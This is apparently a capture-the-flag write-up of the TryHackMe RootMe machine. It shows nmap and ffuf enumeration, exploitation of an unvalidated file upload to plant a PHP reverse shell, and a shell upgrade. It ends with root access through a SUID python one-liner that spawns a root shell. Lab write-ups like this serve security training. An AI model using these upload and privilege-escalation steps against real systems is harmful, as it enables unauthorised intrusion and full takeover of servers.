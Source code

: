###Overview

this is a quick writeup, explaining how we got inside rRootMe machine from tryhackme.
Target Informations

###External Enumeration

Port Scaning i’ll be using nmap as regular:
```python
 nmap -v -sC -sV -oN nmap/nmap_tcp_simple 10.10.128.17
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

###Directory Brute Forcing

```python
kyle@local:~/rrootme.htb$ ffuf -c -u http://10.10.128.17/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt 
uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 312, Words: 20, Lines: 10]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
:: Progress: [62275/62275] :: Job [1/1] :: 238 req/sec :: Duration: [0:04:21] :: Errors: 3 ::
```

panel and uploads Directories seems interstings


File Upload Vulnerability (Direct file upload)

visiting uploads folder, we get a Directory listing, that let us see what the folder contain, well its empty for now LOL

![img-smpl]({{site.url}}{{site.baseurl}}/src/assets/img/1.png)

also the Panel directory has an Upload function


![img-smpl]({{site.url}}{{site.baseurl}}/src/assets/img/2.png)


the server does not validate the type of files being uploaded (phtml at least, maybe other extentions too), therefor we can upload our malicious file to get a code execution on the server.

i’ll be uploading a reverse shell, with a .phtml extention

sounds like the file has been uploaded

![img-smpl]({{site.url}}{{site.baseurl}}/src/assets/img/3.png)

and we successfully got a reverse shell

terminal


Internal Enumeration

Getting a Full interactive shell

lets 1st Upgrade to a full interactive shell with python pty module

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL+Z
stty -echo raw
fg
stty rows 41 columns 166
```

### Binary Files with SUID Permission

while searching for suid files, we got a good list, and python is a one of them,


```python
www-data@rootme:/home$ find / -perm /4000 2>/dev/                                                                           
/usr/lib/dbus-1.0/dbus-daemon-launch-helpe
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
...
/usr/bin/python
...
/usr/bin/chfn
/usr/bin/gpasswd

www-data@rootme:/home$ ls -lat /usr/bin/python 
-rwsr-sr-x 1 root root 3665768 Aug  4 17:47 /usr/bin/python
```

###Privelege Escalation

we can easly escalate our priveleges, GTFOBins got a good set of priv escalation methods we can use.

```python
www-data@rootme:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@rootme:/$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=33(www-data) groups=33(www-data)
# cat /root/root.txt
THM{REDACTED}
```

